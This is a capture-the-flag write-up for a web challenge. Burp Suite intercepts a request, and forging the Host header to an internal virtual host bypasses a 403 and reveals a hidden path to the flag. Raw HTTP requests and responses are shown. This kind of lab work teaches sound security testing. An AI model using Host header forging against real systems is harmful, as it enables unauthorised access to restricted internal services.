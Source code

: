 # Research Materials [499 Points]
You want to get the research materials and find out which part of the development goes wrong. The research materials are hidden in the system topsecret.vaccine.dev. How do you get it? Note : All 403s for this challenge are intended. We've tested it.

http://research.nypinfsecctf.tk/

## Solution

1. We set up a proxy on our browser and burp suite to intercept the request when visiting http://research.nypinfsecctf.tk/, since visting it in the web browser gives a 403 Forbidden error.
```
GET / HTTP/1.1

Host: research.nypinfsecctf.tk

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```
2. Once intercepted, we change the host from research.nypinfsecctf.tk/ to topsecret.vaccine.dev since this is suggested in the challenge description.
```
Host: topsecret.vaccine.dev
```
3. We then right clicked and select 'Do intercept Response to this request' and forward the configured request to the web browser.
```
HTTP/1.1 200 OK

Server: nginx/1.18.0 (Ubuntu)

Date: Mon, 09 May 2022 03:19:58 GMT

Content-Type: text/html; charset=utf-8

Connection: close

Content-Length: 25



/f/Evommgb5azlyCaYMDHW57Q
```
4. ```/f/Evommgb5azlyCaYMDHW57Q``` looks like a path so we add it to the back of research.nypinfsecctf.tk    

5. We then visit research.nypinfsecctf.tk/f/Evommgb5azlyCaYMDHW57Q in our web browser (do not need proxy and burp suite anymore), to obtain the flag.
```
Flag: NYP{h0st_h3ad3r_f0rg1ng}
```
